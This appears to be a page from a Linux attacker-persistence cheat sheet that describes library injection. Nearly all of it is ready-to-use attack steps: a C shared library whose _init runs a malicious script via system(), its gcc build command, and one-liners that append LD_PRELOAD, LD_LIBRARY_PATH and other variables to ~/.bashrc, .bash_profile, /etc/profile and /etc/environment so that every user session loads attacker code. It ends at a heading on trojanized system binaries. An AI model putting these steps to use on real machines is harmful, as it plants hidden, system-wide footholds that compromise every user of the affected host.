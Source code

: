 # Library Injection Persistence

#### Create a Malicious Shared Library
- **Create a Malicious Shared Library:**
	```bash
	#include <stdio.h>
	static void _init() {
	    system("/path/to/malicious_script.sh");
	}
	```
- **Compile the shared library:**
	```bash
	gcc -fPIC -shared -o malicious.so malicious.c -ldl
	```
- **Set Malicious Variable:**
	```bash
	echo "export <variable_name>=/path/to/malicious_library.so" >> ~/.bashrc
	```

#### Using `LD_PRELOAD`
`LD_PRELOAD` is an environment variable that allows shared libraries to be loaded before any others. Attackers can use it to inject malicious libraries for persistence.

- **Set `LD_PRELOAD`:** Loads the malicious shared library for all users.
	```bash
	echo "export LD_PRELOAD=/path/to/malicious.so" >> /etc/profile
	```

#### Using `LD_LIBRARY_PATH`
Modifying the `LD_LIBRARY_PATH` environment variable allows an attacker to redirect the loading of dynamic libraries to malicious ones without needing to modify system binaries.
 
- **Set `LD_LIBRARY_PATH` for User Sessions:** Redirects the dynamic linker to use the attacker’s malicious library during session initiation.
	```bash
	echo "export LD_LIBRARY_PATH=/path/to/malicious_lib" >> ~/.bashrc
	```
- **System-Wide Hijack:** Add the environment variable to `/etc/environment` or `/etc/profile` to affect all users.
	```bash
	echo "export LD_LIBRARY_PATH=/path/to/malicious_lib" >> /etc/environment
	```

#### Using `.bash_profile`
- **Set Malicious Environmental Variable in `.bash_profile`:**
	```bash
	echo "export MALICIOUS_VAR=/path/to/malicious_script" >> /home/<username>/.bash_profile
	```

# Trojanized System Binary Persistence
Replacing or modifying critical system binaries with malicious versions can provide persistence as the binary is executed frequently by legitimate users and processes.
